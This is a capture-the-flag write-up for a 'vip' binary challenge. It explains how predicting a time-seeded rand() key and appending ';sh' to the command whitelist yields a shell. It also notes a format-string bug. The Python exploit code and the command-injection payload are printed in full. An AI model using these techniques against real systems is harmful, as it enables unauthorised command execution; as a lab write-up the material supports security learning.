This challenge took a lot longer than I would like to admit. 

So first of all, this challenge gives you a list of commands you can run which is stored in a buffer called `whitelist`. Then it asks for your input and if your input matches one of the strings in the array, then it will call it. The program will look like this:

```
"Welcome to the club. It's ok, don't be in a rush. You've got all the time in the world. As long as you are a vip that is."

Commands: clear exit ls  
> ls
Executing: ls...

flag.txt
vip_blacklist
vip.py

Commands: clear exit ls  
> sh
Executing: sh...

Command not allowed
```

One of the first things I noticed, before even checking the disassembly code, is that this program also had a format string bug.

```
Commands: clear exit ls  
%p 
Executing: 0x7ffe54bf56f0f0...

Command not allowed
```

The code where the bug is located looks like this:

```c
sprintf(formatted_input,input)
```

(A little foreshadow) This bug led to a very deep rabbit hole because the program did not have a large enough buffer to try to write anywhere outside of the stack. I did get some base leaks though!!! (it was not needed).

Anyways, ignoring the printf vulnerability, you see that the program sets a key through a function called `randGen()` and then checks that if the input is the same as the key, then to call a function named `allowCopy()` that would add a command to the list called `queue`. The command itself isn't important, but the function is. 

Now the first thing that needs to be done is to find a way to get the key and luckily, it is not that bad. What it does is it sets an `srand()` seed with the time and then creates a key with just running `rand()` a few times. The function looks like so:

```c
void randGen(void **param_1)

{
  int rand;
  void *val_at_heap;
  time_t now;
  ulong i;
  
  val_at_heap = malloc(10);
  now = time((time_t *)0x0);
  srand((uint)now);
  for (i = 0; i < 10; i = i + 1) {
    rand = ::rand();
    *(char *)(i + (long)val_at_heap) = (char)rand;
  }
  *param_1 = val_at_heap;
  return;
}
```

Which means that I can simulate this exactly through python by using the `ctypes` library and creating the key like this:

```python
# get into the queue
d = datetime.now()
libc = CDLL("/usr/lib/libc.so.6")
timestamp = libc.time(0)
libc.srand(timestamp)

key = 0;
for i in range(10):
    rand = libc.rand()
    last_byte = hex(rand)[-2:]
    
    key += int(last_byte, 16) << (8 * i)

modified = p64(key & 0xffffffffffffffff) + p64(key >> 64)

io.sendline(modified)
```

Now that you're in the queue, you can see that there is a bug because it will write however many bytes the `read()` function returns but then do `strlen()` and then check each index to the string `queue\x00clear\x00exit\x00\x00ls` to "make sure that nothing was changed", but if you enter that exactly plus `;sh` at the end, you will write `ls;sh` to the whitelist.

And if you run `ls;sh` you will get a shell.

```python
io.sendline(b"queue\x00clear\x00exit\x00\x00ls;sh")
io.sendline(b"ls;sh")
```

```
Commands: queue clear exit ls;sh 
Executing: ls;sh...

flag.txt
vip_blacklist
vip.py
writeup.md
$ whoami
papichulo
```

Now the problem I had with this challenge is that for the LONGEST TIME I thought that the program would check for `queue\x00clear\x00exit\x00\x00ls\x00` and because I thought that it would check for that final null byte, I was thinking to write `;sh` after it and then with the format string bug I would try to overwrite the null byte to a semicolon. And because of that a lot of time was lost but it is okay lesson learned. Read things more carefully hahahahhahaha.

